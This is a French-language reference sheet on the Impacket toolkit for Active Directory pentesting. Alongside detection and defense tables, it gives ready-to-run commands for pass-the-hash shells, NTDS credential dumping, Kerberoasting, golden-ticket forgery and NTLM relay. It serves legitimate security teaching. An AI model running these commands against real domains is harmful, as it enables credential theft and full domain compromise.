

# Impacket — Active Directory & Windows

> [!info] **En 1 phrase**
> Impacket est un framework Python qui implémente les protocoles Windows (SMB, Kerberos, LDAP, MSRPC, MSSQL, WinRM) et fournit des scripts prêts à l'emploi pour la post-exploitation Active Directory.

---

## Overview

| Champ | Détail |
|---|---|
| **Nom** | Impacket |
| **Type** | Framework Python de protocoles réseau + boîte à outils post-exploitation AD |
| **Licence** | Apache-2.0 (scripts d'exemples sous licences variées) |
| **Langage** | Python 3 |
| **Développeur** | fortra (mainteneur actuel, ex-SecureAuthCorp / CoreSecurity) |
| **Dépositaires** | `github.com/fortra/impacket` |
| **Installation** | `pip install impacket` ou paquet `python3-impacket` (Kali/Debian) |
| **Pré-requis** | Python ≥ 3.7, dépendances (`pyasn1`, `pycryptodome`, `ldap3`, `six`, …) |
| **Plateformes** | Linux, Windows, macOS (Python) |
| **Objectif** | Implémenter les protocoles Microsoft (SMB1-3, MSRPC, Kerberos, LDAP, MSSQL, WinRM) et fournir des scripts d'attaque AD (psexec, secretsdump, ntlmrelayx…) |

---

## Concept

Impacket est une collection de classes Python qui implémentent **nativement les protocoles réseau Microsoft** (SMB, Kerberos, LDAP, MSRPC, MSSQL, WinRM, WMI...) sans dépendre des binaires Windows. Au-dessus de cette bibliothèque, le dossier `examples/` fournit des **scripts prêts à l'emploi** utilisés à chaque pentest AD : exécution de commandes à distance (psexec, wmiexec, smbexec, atexec), dump de secrets (secretsdump : NTDS.dit, SAM, LSA), attaques Kerberos (GetNPUsers, GetUserSPNs, ticketer, getTGT, getST), relais NTLM (ntlmrelayx) et clients divers (smbclient, mssqlclient). Dans un pentest, il s'utilise dès qu'on dispose d'un **compte, d'un hash NTLM ou d'un ticket** : c'est la boîte à outils de l'étape post-exploitation / escalade de privilèges AD.



---

## Concepts fondamentaux

| Concept | Rôle dans Impacket |
|---|---|
| **SMB1 / SMB2 / SMB3** | Implémentation complète des protocoles de partage de fichiers (base de psexec, smbclient, secretsdump) |
| **MSRPC** | Appels RPC vers les services Windows (SRVSVC, SAMR, WKST, SCM) — base de smbexec, atexec |
| **Kerberos** | Implémentation client (AS-REQ, TGS-REQ, S4U2Self/Proxy) pour getTGT, getST, GetUserSPNs |
| **NTLM / NTLM Relay** | Authentification challenger-response, relais de handshake pour ntlmrelayx |
| **LDAP** | Client LDAP (bind + requêtes) pour les roasts (GetNPUsers, GetUserSPNs) et l'énumération |
| **NTDS.dit** | Extraction des hashes (secretsdump) : accès au fichier de base ou via VSS |
| **Pass-the-Hash** | Rejeu du hash NTLM au lieu du mot de passe (`-hashes :NT`) |
| **Pass-the-Ticket** | Rejeu d'un TGT/ST Kerberos via `KRB5CCNAME` + `-k` |
| **DCSync** | Réplication de l'annuaire (secretsdump `-just-dc`) pour récupérer les hashes sans accès au DC |

---

## Installation

### Pré-requis

| Dépendance | Rôle | Note |
|---|---|---|
| Python ≥ 3.7 | Runtime | Recommandé : Python 3.9+ |
| `pycryptodome` | Cryptographie (RC4, AES, MD4…) | Automatique avec pip |
| `pyasn1` | Encodage ASN.1 (Kerberos, PKCS#12) | Automatique avec pip |
| `ldap3` | Client LDAP | Automatique avec pip |
| `six` | Compatibilité Python 2/3 | Automatique avec pip |
| `chardet` / `pysmb` / `fastapi` / `uvicorn` (optionnels) | Fonctions avancées (mssqlserver, smbserver…) | Selon les scripts utilisés |

### Installation

```bash
# Kali / Debian / Ubuntu (paquet)
sudo apt update && sudo apt install -y python3-impacket

# Version à jour via pip (recommandé)
python3 -m pip install impacket

# Depuis les sources (développement / dernières fonctions)
git clone https://github.com/fortra/impacket.git
cd impacket && python3 -m pip install .

# Conteneur
docker run -it --rm --network host kalilinux/kali-rolling bash -c "apt update && apt install -y python3-impacket"

# Vérification
secretsdump.py -h
```

> [!tip] **PATH** : sur Kali les scripts sont appelables directement (`psexec.py`, `secretsdump.py`). Sinon : `python3 /chemin/vers/impacket/examples/psexec.py ...`

## Configuration

Impacket se configure par **arguments en ligne de commande** (communs à tous les scripts) : target (`user:pass@host` ou `user@host`), `-hashes`, `-dc-ip`, `-target-ip`, `-k` (Kerberos), `-no-pass`, etc. Quelques scripts utilisent un fichier (ex. `-usersfile`, `-requests-file`) mais il n'y a pas de fichier de config global.

| Paramètre | Rôle | Valeur possible | Impact | Exemple |
|---|---|---|---|---|
| `user:pass@host` (target) | Cible + creds | `CORP/Admin:Pass@192.168.1.10` | Définit la machine et l'authentification | `psexec.py CORP/Admin:Pass@192.168.1.10` |
| `-hashes LM:NT` | Hash NTLM (PtH) | `-hashes :64f12cdd...` | Évite le mot de passe en clair | `wmiexec.py -hashes :64f12cdd... CORP/Admin@192.168.1.10` |
| `-dc-ip <IP>` | IP du DC | IP du contrôleur de domaine | Fait pointer les requêtes Kerberos/LDAP vers le bon DC | `GetUserSPNs.py -dc-ip 192.168.1.10` |
| `-target-ip <IP>` | IP de la cible | IP distincte du hostname | Évite les erreurs de résolution DNS | `psexec.py -target-ip 192.168.1.10 CORP/Admin@dc01` |
| `-k` | Authentification Kerberos | flag booléen | Utilise le ticket de `KRB5CCNAME` | `psexec.py -k -no-pass CORP/Admin@dc01.corp.local` |
| `-no-pass` | Pas de mot de passe | flag booléen | Force l'auth par ticket ou null | `GetNPUsers.py -no-pass -usersfile users.txt` |
| `-just-dc[-user]` | Dump ciblé NTDS | `-just-dc-ntlm`, `-just-dc-user krbtgt` | Réduit le volume et le temps du dump | `secretsdump.py -just-dc-user krbtgt` |
| `-use-vss` | Dump via Volume Shadow Copy | flag booléen | Contourne le verrouillage du NTDS.dit | `secretsdump.py -use-vss -just-dc-ntlm` |
| `-request` | Kerberoasting | flag booléen | Récupère les TGS crackables | `GetUserSPNs.py -request` |
| `-smb2support` | Relais SMB2 | flag booléen | Accepte les clients SMB2 (relais) | `ntlmrelayx.py -t smb://... -smb2support` |
| `-t <target>` | Cible de relais | `smb://`, `ldap://`, `ldaps://`, `http://` | Où l'authentification relayée est envoyée | `ntlmrelayx.py -t ldaps://192.168.1.10` |

---

## Architecture interne

- **Couche transport** : Impacket fournit des sockets chiffrés (NTLM, Kerberos, TLS) en pur Python — pas de dépendance à un client Microsoft.
- **Protocoles** : chaque protocole est un module (`impacket.smb3`, `impacket.ntlm`, `impacket.krb5`, `impacket.dcerpc.v5.*`, `impacket.ldap`, `impacket.mssql`, `impacket.winreg`, …).
- **MSRPC** : le dossier `dcerpc/v5` expose les interfaces RPC (SAMR, SRVSVC, SCMR, LSA-DS, EFS…) avec marshalling/démarshalling des structures NDR.
- **Scripts examples/** : chaque outil (`psexec.py`, `secretsdump.py`, `ntlmrelayx.py`, …) est un petit programme qui utilise les bibliothèques ; c'est aussi le modèle de référence pour écrire ses propres scripts (`from impacket.smbconnection import SMBConnection`).
- **SMBConnection** : classe centrale qui gère la négociation, l'authentification et le multiplexage des arbres/requêtes (SMB1, SMB2, SMB3).
- **Crypto** : l'authentification NTLM (MD4, RC4, HMAC-MD5) et Kerberos (RC4/AES) sont implémentées en Python via `pycryptodome`.
- **Plugins** : `ntlmrelayx` et `smbserver` acceptent des modules (`SMBRelayx`, `SMBATKC`, etc.) pour étendre les fonctionnalités (ex. `--delegate-access` de ntlmrelayx).

---

## Commandes

### Commandes principales

```bash
# Shell distant en Pass-the-Hash (hash NTLM)
python3 psexec.py  -hashes :64f12cddaa88057e06a81b54e73b949b CORP/Admin@192.168.1.10
python3 wmiexec.py -hashes :64f12cddaa88057e06a81b54e73b949b CORP/Admin@192.168.1.10 whoami

# Dump du NTDS.dit (admin domaine requis)
python3 secretsdump.py -just-dc-ntlm CORP/Admin@192.168.1.10 -outputfile ntds

# Roasts Kerberos
python3 GetNPUsers.py  -dc-ip 192.168.1.10 -no-pass -usersfile users.txt 'CORP.LOCAL/'
python3 GetUserSPNs.py -dc-ip 192.168.1.10 'CORP/user:Passw0rd!' -request

# Relais NTLM vers SMB
python3 ntlmrelayx.py -t smb://192.168.1.20 -smb2support

# Client SMB / MSSQL
python3 smbclient.py CORP/Admin:Passw0rd@192.168.1.10
python3 mssqlclient.py -windows-auth CORP/Admin@192.168.1.30

# Tickets Kerberos (TGT / ST) + interrogation réseau
python3 getTGT.py -dc-ip 192.168.1.10 CORP/user:Passw0rd
python3 getST.py -spn cifs/dc01.corp.local -impersonate Administrator -dc-ip 192.168.1.10 CORP/user:Passw0rd
python3 wmiquery.py CORP/Admin:Passw0rd@192.168.1.50 "SELECT * FROM Win32_Process"
```

| Commande | Effet |
|---|---|
| `psexec.py` | shell semi-interactif via SMB + création d'un service (bruyant) |
| `wmiexec.py` | exécution via WMI, plus discret, sortie semi-interactive |
| `smbexec.py` | shell sans binaire déposé (stubs cmd dans l'ADMIN$) |
| `atexec.py` | exécution via le planificateur de tâches (Task Scheduler) |
| `smbclient.py` | client SMB : partages, upload/download, listing |
| `secretsdump.py` | dump SAM / LSA / cache NTDS.dit (admin requis) |
| `GetNPUsers.py` | AS-REP Roasting (comptes sans preauth) |
| `GetUserSPNs.py` | Kerberoasting (TGS crackables) |
| `ticketer.py` | forge un Golden/Silver Ticket (nécessite le hash krbtgt) |
| `getTGT.py` | obtient un TGT Kerberos (avec password ou hash) |
| `getST.py` | obtient un ST (S4U2Self/Proxy) pour un SPN |
| `wmiquery.py` | exécute des requêtes WQL à distance (WMI) |
| `ntlmrelayx.py` | relais de l'authentification NTLM vers SMB / LDAP / HTTP |
| `mssqlclient.py` | client MSSQL : auth Windows, `xp_cmdshell` |

### Commandes avancées

```bash
# Secretsdump complet (NTDS + SAM + LSA + DNS) via DCSync
python3 secretsdump.py -dc-ip 192.168.1.10 CORP/Admin:Passw0rd@192.168.1.10 -outputfile dump

# Golden Ticket forgé puis rejoué en psexec
python3 ticketer.py -nthash <krbtgt-hash> -domain-sid S-1-5-21-... -domain CORP.LOCAL Admin
export KRB5CCNAME=Admin.ccache
python3 psexec.py -k -no-pass CORP.LOCAL/Admin@dc01.corp.local

# Kerberos avec hash RC4/AES directement (sans ticket)
python3 getTGT.py -dc-ip 192.168.1.10 -hashes :64f12cdd... CORP/user
```

---

## Options et flags

| Option | Description | Exemple | Niveau |
|---|---|---|---|
| `-hashes LM:NT` | Hash NTLM (PtH) | `-hashes :64f12cdd...` | Basic |
| `-dc-ip <IP>` | IP du DC (Kerberos/LDAP) | `-dc-ip 192.168.1.10` | Basic |
| `-target-ip <IP>` | IP de la cible | `-target-ip 192.168.1.10` | Basic |
| `-no-pass` | Ne pas demander de mot de passe | `GetNPUsers.py -no-pass` | Basic |
| `-just-dc[-ntlm\|-user]` | Dump ciblé NTDS | `-just-dc-user krbtgt` | Intermediate |
| `-use-vss` | Dump via VSS | `-use-vss -just-dc-ntlm` | Intermediate |
| `-request` | Kerberoasting (GetUserSPNs) | `-request -outputfile tgs.txt` | Intermediate |
| `-spn <spn>` | SPN cible (getST) | `-spn cifs/dc01.corp.local` | Intermediate |
| `-impersonate <user>` | Impersonation S4U | `-impersonate Administrator` | Advanced |
| `-k` | Kerberos via ccache | `psexec.py -k -no-pass` | Advanced |
| `-debug` | Logs détaillés (débogage) | `secretsdump.py -debug` | Advanced |
| `-aesKey <hex>` | Clé AES (Kerberos) | `-aesKey 4fc2...` | Expert |
| `--delegate-access` | Module RBCD de ntlmrelayx | `ntlmrelayx.py -t ldaps://... --delegate-access` | Expert |
| `-smb2support` | Support SMB2 au relais | `ntlmrelayx.py -smb2support` | Intermediate |

> [!tip] Options les plus utiles au quotidien
> `-hashes :NT` (PtH), `-dc-ip` (évite les erreurs DNS), `-just-dc-user` (dump ciblé), `-no-pass` (roasts).

## Exemples pratiques

### Beginner

```bash
# Valider des creds et prendre un premier shell
python3 wmiexec.py -hashes :64f12cddaa88057e06a81b54e73b949b CORP/Admin@192.168.1.10 whoami

# Lister les partages SMB
python3 smbclient.py CORP/Admin:Passw0rd@192.168.1.10 -L
```

### Intermediate

```bash
# Dump ciblé du krbtgt (pour un Golden Ticket ultérieur)
python3 secretsdump.py -just-dc-user krbtgt CORP/Admin:Passw0rd@192.168.1.10

# Kerberoasting complet avec sortie fichier
python3 GetUserSPNs.py -dc-ip 192.168.1.10 'CORP/user:Passw0rd!' -request -outputfile tgs.txt

# AS-REP Roasting
python3 GetNPUsers.py -dc-ip 192.168.1.10 -no-pass -usersfile users.txt 'CORP.LOCAL/' -outputfile asrep.txt
```

### Advanced

```bash
# Silver Ticket pour le service CIFS d'un DC (hash du compte machine)
python3 ticketer.py -nthash <machine-hash> -domain-sid S-1-5-21-... -domain CORP.LOCAL -spn cifs/dc01 Administrator
export KRB5CCNAME=Administrator.ccache
python3 smbclient.py -k -no-pass CORP.LOCAL/Administrator@dc01.corp.local

# DCSync avec hash Kerberos (pas de mot de passe en clair)
python3 secretsdump.py -dc-ip 192.168.1.10 -hashes :64f12cdd... 'CORP/Admin@192.168.1.10'
```

### Expert

```bash
# Relais NTLM vers LDAPS avec attribution RBCD (shadow credential / delegation)
python3 ntlmrelayx.py -t ldaps://192.168.1.10 --delegate-access --no-dump

# Exécution WQL distante (WMI) pour collecter des infos système
python3 wmiquery.py CORP/Admin:Passw0rd@192.168.1.50 "SELECT * FROM Win32_ComputerSystem"

# Serveur SMB malveillant pour capturer des hashes
python3 smbserver.py share /opt/share -smb2support -username user -password Pass
```

---

## Workflow complet (scénario pas à pas)

Scénario : vous disposez d'un **hash NTLM** du compte `Admin` et le **DC** répond sur `192.168.1.10`.

1. **Valider le hash** : confirmer que le compte a un accès réseau.
   ```bash
   python3 wmiexec.py -hashes :64f12cddaa88057e06a81b54e73b949b CORP/Admin@192.168.1.10 whoami
   ```
2. **Dumper le domaine** : récupérer tous les hashes NT.
   ```bash
   python3 secretsdump.py -just-dc-ntlm CORP/Admin@192.168.1.10 -outputfile ntds
   ```
3. **Cracker** les hashes hors-ligne.
   ```bash
   hashcat -m 1000 ntds.ntds rockyou.txt
   ```
4. **Cibler la clé du `krbtgt`** pour préparer un Golden Ticket.
   ```bash
   python3 secretsdump.py -just-dc-user krbtgt CORP/Admin@192.168.1.10
   ```
5. **Étendre** : relais NTLM vers LDAP ou SMB, roasts Kerberos sur les autres comptes.
   ```bash
   python3 ntlmrelayx.py -t smb://192.168.1.20 -smb2support
   python3 GetUserSPNs.py -dc-ip 192.168.1.10 'CORP/Admin:Passw0rd!' -request
   ```

---

## Scénarios avancés

### Scénario 1 : Golden Ticket avec ticketer.py

Forger un TGT administrateur avec le hash NTLM du krbtgt et le SID du domaine.

```bash
python3 ticketer.py -nthash 8e94ef... -domain-sid S-1-5-21-... -domain CORP.LOCAL Admin
export KRB5CCNAME=Admin.ccache
python3 psexec.py -k -no-pass CORP.LOCAL/Admin@DC01.corp.local
```

### Scénario 2 : NTLM Relay vers LDAP pour ajouter un utilisateur

Relayer l'authentification NTLM d'une victime vers LDAPS pour créer un compte privilégié (RBCD).

```bash
python3 ntlmrelayx.py -t ldaps://192.168.1.10 --delegate-access
```

### Scénario 3 : Exécution de commandes via MSSQL (`xp_cmdshell`)

Avec des droits sysadmin sur l'instance, activer et utiliser `xp_cmdshell`.

```bash
python3 mssqlclient.py -windows-auth CORP/Admin@192.168.1.30
SQL> enable_xp_cmdshell
SQL> xp_cmdshell whoami
SQL> xp_cmdshell "powershell -c IEX(...)"
```

### Scénario 4 : Forge d'un Silver Ticket pour un service applicatif

Utiliser le hash du compte de service pour forger un ticket valide pour un SPN précis, sans toucher au krbtgt.

```bash
python3 ticketer.py -nthash <svc-hash> -domain-sid S-1-5-21-... -domain CORP.LOCAL -spn http/app01 Admin
export KRB5CCNAME=Admin.ccache
python3 wmiexec.py -k -no-pass CORP.LOCAL/Admin@app01.corp.local whoami
```

---

## Cybersecurity use cases

| Phase | Utilisation |
|---|---|
| Post-exploitation | Shell distant (psexec, wmiexec, smbexec, atexec), client SMB/MSSQL |
| Credential Access | secretsdump (NTDS.dit, SAM, LSA), DCSync, Kerberoasting, AS-REP Roasting |
| Privilège Escalation | Forge de Golden/Silver Tickets, relais NTLM vers LDAP (RBCD) |
| Lateral Movement | Pass-the-Hash / Pass-the-Ticket vers les autres machines |
| Persistance | Création de comptes, tickets longue durée, backdoor via service |
| Énumération | wmiquery, smbclient, GetADUsers, Lookupsid (SID brute-force) |
| Blue team / lab | Test des protections (SMB signing, LDAP signing, restrictions Kerberos) |

---

## MITRE ATT&CK

| Tactique | Technique / Sub-technique | ID | Raison | Détection | Mitigation |
|---|---|---|---|---|---|
| Lateral Movement | Remote Services : SMB/Admin Shares | T1021.002 | psexec crée un service via ADMIN$ (SMB) | Événement 7045/4697 (nouveau service), logons Type 3 | SMB signing obligatoire, restreindre ADMIN$ |
| Execution | Windows Management Instrumentation | T1047 | wmiexec/wmiquery exécutent via WMI | WMI-Activity Events 19-21, 4624 Type 3 | Restreindre les accès WMI, surveiller |
| Credential Access | OS Credential Dumping : NTDS | T1003.003 | secretsdump récupère NTDS.dit (ou via VSS) | Dumps volumineux, accès NTDS.dit, `-use-vss` | Protection des sauvegardes, atténuation DCSync |
| Credential Access | Kerberoasting | T1558.003 | GetUserSPNs récupère les TGS | Événement 4769 avec indicateurs (RC4, count élevé) | gMSA, AES-only, comptes de service à haute entropie |
| Credential Access | Steal or Forge Kerberos Tickets : AS-REP Roasting | T1558.004 | GetNPUsers cible les comptes sans preauth | Événement 4768 anormal | Désactiver DONT_REQ_PREAUTH, AES-only |
| Credential Access | Steal or Forge Kerberos Tickets : Golden/Silver | T1558.001 / T1558.002 | ticketer forge des tickets | Événements 4768/4769 suspects (donmain admin après domaine) | Rotation du krbtgt, monitoring Kerberos |
| Credential Access | Exploitation du relais NTLM | T1557.001 (relais) | ntlmrelayx relaie l'authentification | Connexions NTLM relayées, doublons de logons | LDAP signing, EPA (Extended Protection), SMB signing |
| Discovery | Domain Trust Discovery | T1482 | Interrogation des trusts | Requêtes de trusts anormales | Superviser les requêtes de confiance |

> [!note] Ne renseigner que si l'association est réellement pertinente.
> Impacket couvre une très large surface ATT&CK : ne retenir ici que les usages principaux (exécution, dump, tickets, relais).

## Defensive Security

| Élément | Analyse |
|---|---|
| **Signature principale** | Logons Type 3 répétés (4624) depuis une source, créations de service (7045), requêtes LDAP/Kerberos massives |
| **Journal Windows** | 4624/4625, 7045 (service), 4768/4769 (Kerberos), WMI-Activity (19-21), 4662 (accès AD) |
| **Surveillance** | Corréler les psexec (7045 + 4624) et wmiexec (WMI-Activity), alertes sur les dumps NTDS |
| **Mesures de prévention** | SMB signing obligatoire, LDAP signing + channel binding, atténuation DCSync (droits de réplication limités) |
| **Réduction de la surface** | gMSA pour les comptes de service, AES-only Kerberos, surveiller les SPN, LAPS pour les admins locaux |
| **Outils de détection** | EDR, SIEM (corrélation 7045+4624), honeypot SMB/LDAP, détection de `secretsdump.py` (accès NTDS) |

> [!tip] Bien comprendre ce qu'Impacket exploite
> Impacket réutilise les **protocoles légitimes** de Windows : durcir SMB (signing), Kerberos (AES-only, gMSA) et LDAP (signing) neutralise la majorité des scripts.

---

## Automatisation

| Tâche | Outil | Exemple de commande / code |
|---|---|---|
| Dump planifié du domaine | cron + secretsdump | `0 2 * * * secretsdump.py -just-dc-ntlm CORP/Admin@dc01 -outputfile /var/log/ntds` |
| Vérification de masse des creds | Boucle + wmiexec | `for h in $(cat hosts.txt); do wmiexec.py -hashes :<hash> CORP/Admin@$h whoami; done` |
| Roasts automatisés | GetUserSPNs + parsing | `GetUserSPNs.py ... -request -outputfile tgs.txt` puis `hashcat -m 13100 tgs.txt wordlist` |
| Relais continu | ntlmrelayx en boucle | `ntlmrelayx.py -tf targets.txt -smb2support` (pendant un engagement) |
| Import dans un pipeline | Sous-module Python | `from impacket.smbconnection import SMBConnection` dans un script d'orchestration |
| Ordonnancement | systemd-timer / Task Scheduler | Récurrence du dump selon la politique du lab |

---

## Output et parsing

- **secretsdump** : écrit `.ntds`, `.ntds.kerberos`, `.ntds.cleartext`, `.ntds.cached` (avec `-outputfile`) ; sans option, sortie stdout en `domaine\user:uid:LM:NT:::`.
- **GetUserSPNs / GetNPUsers** : sortie crackable directement (`-outputfile`), format `$krb5tgs$...` / `$krb5asrep$...` pour hashcat/john.
- **psexec/wmiexec** : sortie console des commandes ; les réponses sont semi-interactives.
- **ntlmrelayx** : logs des attaques, sessions dumpées, fichiers exfiltrés dans `/tmp` (selon les modules).
- **ticketer** : écrit un fichier `.ccache` à exporter dans `KRB5CCNAME`.
- **Parsing** : `awk`/`cut` pour extraire `user:hash` des fichiers `.ntds` ; `hashcat --show` pour vérifier les craqués.

```bash
# Exemple de parsing des hashes dumpés
grep -E ':500:|:1104:' ntds.ntds   # Administrator / krbtgt
awk -F: '{print $1":"$4}' ntds.ntds > hashes_nt.txt
hashcat -m 1000 hashes_nt.txt rockyou.txt --show
```

---

## Intégrations

| Outil | Usage dans l'écosystème Impacket |
|---|---|
| [[Outil - hashcat]] | Cracker les hashes NT (m 1000) et les tickets Kerberos (m 13100/18200) |
| [[Outil - Evil-WinRM]] | Prendre un shell interactif plus confortable après validation des hashes (WinRM) |
| [[Outil - BloodHound]] | Cartographier le domaine avec les creds validés ; exploiter les chemins |
| [[Outil - Rubeus]] | Kerberoasting / tickets côté Windows (complémentaire de GetUserSPNs) |
| [[Outil - Mimikatz]] | Dump LSASS local + rejeu des hashes avec Impacket (secretsdump/crackmapexec) |
| [[Outil - CrackMapExec]] | Confirmer les creds/hashes sur plusieurs protocoles avant les scripts lourds |
| [[Outil - Nmap]] | Détection des ports SMB/Kerberos/MSSQL avant l'utilisation des scripts |
| [[Outil - mitm6]] | Relais IPv6 DHCP → ntlmrelayx (chaîne complète de prise de domaine) |
| [[Outil - Responder]] | Capture de hashes → relais par ntlmrelayx ou cracking |

---

## Alternatives

| Alternative | Différence | Pour qui |
|---|---|---|
| **CrackMapExec** | Multi-protocole, massif, plus orienté validation qu'exploitation fine | Scripting / vérification |
| **netexec** (successeur de CME) | Rebuild actif, protocoles étendus | Équipes à jour |
| **pywerview** | Énumération AD pure (clone de PowerView) | Énumération sans script Windows |
| **ldapdomaindump** | Dump LDAP complet (HTML/JSON/Grepable) | Cartographie passive du domaine |
| **PowerShell / PowerView** | Côté Windows, nécessite une session | Pentest initial à partir d'un poste |

---

## Performance

| Facteur | Impact | Optimisation |
|---|---|---|
| Dump NTDS complet | Chargement mémoire important, long sur les gros domaines | `-just-dc-ntlm` ou `-just-dc-user` |
| Nombre de scripts | Chaque script ouvre des connexions séparées | Réutiliser une session (bibliothèque) ou cibler avec NetExec |
| Relais NTLM | Attend l'arrivée de trafic NTLM | Lancer ntlmrelayx en parallèle avec Responder/mitm6 |
| Latence réseau | Aller-retours SMB/RPC | Préférer wmiexec pour les commandes courtes |
| Kerberoasting | Volume de TGS = temps de cracking | Filtrer par `-request` ciblé ou `-request /nopreauth` |

---

## Troubleshooting

| Problème | Cause | Solution | Vérification |
|---|---|---|---|
| `Credentials are invalid` | Mauvaise casse du hash / compte désactivé | Vérifier le hash (LM:NT), `-hashes :NT` avec les deux-points | `crackmapexec smb <ip> -u u -H <hash>` |
| Erreur DNS obscure | Hostname non résolu | `-target-ip <IP>` ou corriger `/etc/hosts` | `host dc01.corp.local` |
| Échec Kerberos (`-k`) | Pas de ticket dans `KRB5CCNAME` | Exporter le ccache ou utiliser `-dc-ip` | `echo $KRB5CCNAME`, `klist` |
| psexec échoue | SMB signing / firewall / ADMIN$ bloqué | Essayer wmiexec ou atexec, vérifier les ports | `nmap -p445` |
| secretsdump bloqué sur NTDS | Fichier verrouillé par EDR/AV | `-use-vss` | Relancer avec `-use-vss` |
| ntlmrelayx aucune cible | Pas de trafic NTLM / requête bloquée | Vérifier Responder/mitm6, réseau, flags | Observer les logs ntlmrelayx |
| Erreur de dépendance | Python/pip ancien ou conflit | `pip install --upgrade impacket` dans un venv | `pip show impacket` |

---

## Sécurité de l'outil

- **Credentials** : ne pas laisser les mots de passe en clair dans l'historique shell ; préférer les hashes (`-hashes`) ou les tickets.
- **Caches** : les fichiers `.ntds`, `.ccache` et TGS contiennent des secrets → stockage chiffré, exclusion des repos git.
- **Réutilisation** : les scripts d'exemples sont officiellement destinés à des tests autorisés ; s'assurer du cadre légal.
- **Serveurs d'écoute** : `smbserver.py`, `ntlmrelayx.py` ouvrent des ports d'écoute → les firewaller et surveiller, éviter de les laisser tourner.
- **Dépendances** : Impacket est très utilisé → vérifier l'intégrité des paquets pip installés (empreintes) pour éviter les supply-chain.
- **Exposition réseau** : limiter les scripts d'écoute à l'interface de test, ne pas les lancer sur une interface publique.

---

## Limitations

- **Python pur** : les implémentations peuvent diverger des clients natifs sur certains cas (compatibilité SMB, encodages).
- **Bruit** : psexec (service `PSEXESVC`) et secretsdump sont des signaux forts pour les EDR.
- **Fonctionnalités par script** : certains protocoles ne sont pas couverts (ex. certains aspects RPC, WebDAV).
- **Pas de GUI** : entièrement CLI ; l'orchestration de masse passe par des wrappers (CrackMapExec/NetExec).
- **Mises à jour** : la branche `fortra/impacket` est maintenue mais certaines fonctionnalités évoluent entre versions (vérifier la version installée).
- **Tests autorisés uniquement** : son usage sur un domaine sans autorisation est clairement illégal.

---

## Cheatsheet

```text
# Exécution
psexec.py  [DOMAIN/]user:pass@host                  # shell SMB (service)
wmiexec.py [DOMAIN/]user:pass@host 'cmd'            # WMI, discret
smbexec.py [DOMAIN/]user:pass@host                  # shell sans binaire
atexec.py  [DOMAIN/]user:pass@host 'cmd'            # Task Scheduler
# Pass-the-Hash
wmiexec.py -hashes :<NT> [DOMAIN/]user@host whoami
# Dump
secretsdump.py [DOMAIN/]user:pass@host              # NTDS/SAM/LSA
secretsdump.py -just-dc-ntlm [DOMAIN/]user@host
secretsdump.py -just-dc-user krbtgt [DOMAIN/]user@host
secretsdump.py -use-vss -just-dc-ntlm [DOMAIN/]user@host
# Kerberos
GetNPUsers.py  -dc-ip <ip> -no-pass -usersfile users.txt 'DOMAIN/'
GetUserSPNs.py -dc-ip <ip> 'DOMAIN/user:pass' -request
getTGT.py -dc-ip <ip> DOMAIN/user:pass
getST.py -dc-ip <ip> -spn cifs/target -impersonate Admin DOMAIN/user:pass
ticketer.py -nthash <krbtgt> -domain-sid <sid> -domain DOMAIN Admin
export KRB5CCNAME=Admin.ccache
psexec.py -k -no-pass DOMAIN/Admin@target
# Relais
ntlmrelayx.py -t smb://<ip> -smb2support
ntlmrelayx.py -t ldaps://<dc> --delegate-access
# Clients
smbclient.py DOMAIN/user:pass@host
mssqlclient.py -windows-auth DOMAIN/user:pass@host
```

---

## Quick reference

| Situation | Action immédiate |
|---|---|
| Hash NTLM + accès réseau | `wmiexec.py -hashes :<NT> DOMAIN/user@host whoami` |
| Dumper tout le domaine | `secretsdump.py -just-dc-ntlm DOMAIN/admin@dc` |
| Préparer un Golden Ticket | `secretsdump.py -just-dc-user krbtgt` puis `ticketer.py` |
| Kerberoasting | `GetUserSPNs.py -dc-ip <ip> 'DOMAIN/user:pass' -request` |
| AS-REP Roasting | `GetNPUsers.py -no-pass -usersfile users.txt 'DOMAIN/'` |
| Shell discret | `wmiexec.py` (pas de fichier déposé) |
| Shell bruyant mais simple | `psexec.py` (service PSEXESVC) |
| Relais NTLM | `ntlmrelayx.py -t <cible> -smb2support` |
| Client MSSQL | `mssqlclient.py -windows-auth DOMAIN/user:pass@host` |

---

## Détection & Défense

| Signe | Défense |
|---|---|
| Événement 7045 / 4697 : création d'un nouveau service (`PSEXESVC`) typique de psexec | EDR sur création de service, **SMB signing obligatoire** |
| Événement 4624 (Type 3) : logons réseau vers `ADMIN$` / `C$` depuis une seule IP | Limiter les admins locaux, LAPS |
| WMI-Activity (Events 19-21) : corrélats de `wmiexec` / `smbexec` | Monitorer les requêtes WMI, restreindre les accès WMI |
| Accès NTDS.dit : `ntdsutil`, `vssadmin`, dumps volumineux | Détecter les dumps de volume, protéger les sauvegardes |
| Requêtes LDAP massives (énumération, roasts) | Corrélation SIEM sur LDAP, comptes de service gMSA |
| Requêtes Kerberos impersonation (S4U) répétées (`getST`) | Surveiller les demandes S4U2Proxy, restreindre les délégations |

---

## Tips & Pièges

